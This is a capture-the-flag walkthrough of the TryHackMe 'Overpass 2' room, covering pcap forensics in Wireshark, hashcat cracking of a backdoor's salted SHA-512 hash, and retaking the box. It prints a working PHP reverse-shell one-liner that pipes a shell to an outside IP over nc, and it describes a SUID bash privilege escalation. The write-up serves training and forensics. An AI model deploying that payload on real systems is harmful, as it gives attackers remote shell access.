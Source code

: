 ```yaml
---
title: THM | Overpass 2
image: /images/op2-home.png
date: 2020-09-26 17:00:00 -4:00
categories: [CTF, THM]
tags: [wireshark, pcap, hashcat, backdoor, go, salt, hash] 

---
```


# Description 
> [Overpass 2: Hacked](https://tryhackme.com/room/overpass2hacked), is an easy-rated box on [TryHackMe](https://tryhackme.com/) that has you analyze a pcap file of the network activity that occurred during the time of a breach. You then retrace the attackers steps to regain access to the server.

# `[Task 1]` Forensics - Analyze the PCAP

## `1.1` - What was the URL of the page they used to upload a reverse shell?
There's many ways to filter down the traffic you're looking for. One of the first things I do when analyzing a pcap file in wireshark is to take a look at the export objects. You can get some easy wins this way.

![](/images/op2-exp-obj.png)

![](/images/op2-obj-list.png)
`upload.php` seems like a winner. When you select it in the export list window, it will highlight the packet in wireshark. From there you can just `follow tcp stream` to analyze further.

![](/images/op2-fol-tcp-str.png)
Right away the stream reveals a lot of good info. ez.
![](/images/op2-development.png)
The very first thing shown is the `POST` request made to upload the file we discovered earlier, `upload.php` as well as the `Referer` giving us the first answer. **`/development/`**

## `1.2` - What payload did the attacker use to gain access?
Scrolling down a bit shows the content of the `POST` request and the file `payload.php` with a very common php shell code. 

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
![](/images/op2-payload.png)

## `1.3` - What password did the attacker use to privesc?
Since we know the payload used `nc 192.168.170.145 4242` to make the call back to the attacker, we can use this to filter the pcap file. Using the display filter `ip.addr == 192.168.170.145 and tcp.port == 4242`. 

![](/images/op2-dis-filter.png)

Again, choose any packet and follow the tcp stream. You will see a plethora of information, and as great as `nc` is, it is a very bad choice for keeping your traffic confidential. Everything the attacker did on the server is in clear text for us to analyze.

![](/images/op2-password.png)
> All of the red text is the server and everything in blue is the user's input.

There's the password we're looking for: `whenevernoteartinstant`

## `1.4` - How did the attacker establish persistence?
Scrolling down the same stream, you will see the attacker download a ssh backdoor from [`https://github.com/NinjaJc01/ssh-backdoor`](https://github.com/NinjaJc01/ssh-backdoor) to access the server at a later time.
![](/images/op2-backdoor.png)

## `1.5` - Using the fasttrack wordlist, how many of the system passwords were crackable?
The attacker cat'd the `/etc/shadow` file, copy the hashes and put them into a text file.
![](/images/op2-shadow.png)
### Hashcat
Now use hashcat to crack the hashes. 
![](/images/op2-hashcat.png)

# `[Task 2]` Research - Analyze the code
## `2.1` What's the default hash for the backdoor?
You can either download the repo of the ssh backdoor or just analyze it from github in your browser. It doesn't matter, everything we need is in the `main.go` file. 

Looking over the code you will find a hardcoded hash assigned to a variable.
![](/images/op2-hash.png)

## `2.2` What's the hardcoded salt for the backdoor?
Again going through the same source code, you will find a function called passwordHandler and the hardcoded salt used for the hash.
![](/images/op2-salt.png)

## `2.3` What was the hash that the attacker used? - go back to the PCAP for this!
Going through the tcp stream from earlier, you can clearly see the hash the attacker used with the backdoor.
![](/images/op2-att-hash.png)

## `2.4` Crack the hash using rockyou and a cracking tool of your choice. What's the password?

So there's a few things to hit on real quick:

- When analyzing the source code for the backdoor, we found the hardcoded salt used to hash the password mentioned in `2.2`.
- Also important, is the algorithm used to calculate the hash. Which can also be found in the source code.
```go
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```
- So it's using sha512 to hash the password + salt. 
- Great, now we can start putting together our hashcat command.

Using the [hashcat example hashes menu](https://hashcat.net/wiki/doku.php?id=example_hashes), you will find option `1710` matches our scenario in the form of `sha512($pass.$salt)`

So our command will be in form of `hashcat -m <HASH_TYPE> -a 0 -o <outfile> <HASH:SALT> <wordlist>`
![](/images/op2-hc.png)

cat the output file to reveal the password.
![](/images/op2-hc2.png)

# `[Task 3]` Attack - Get back in!
## `3.1` The attacker defaced the website. What message did they leave as a heading?
Deploy the machine and head over to the website. You will immediately see the defacement. 
![](/images/op2-web.png)

## `3.2` Using the information you've found previously, hack your way back in!
If you have a good memory and are observant, you will remember from the pcap file and the source code, that the `ssh backdoor` is listening on `port 2222`. So simply connect with ssh on that port.
![](/images/op2-ssh.png)

## `3.3` What's the user flag?
Simple enough, just go to james' home directory and cat the user.txt file.
![](/images/op2-user.png)

## `3.4` What's the root flag?
If you did a `ls -la` in james' home directory then you would of seen a hidden binary named `.suid_bash` with the SUID bit set. This means anyone can execute the binary with the permissions of the file's owner, in this case `root`. Seems like a quick way for the attacker to escalate to root, so let's try it out ourselves. Just use the `-p` argument for privileged mode.
![](/images/op2-root.png)

Boom, just like that we got root and we can get the last flag.

![](/images/op2-root2.png)
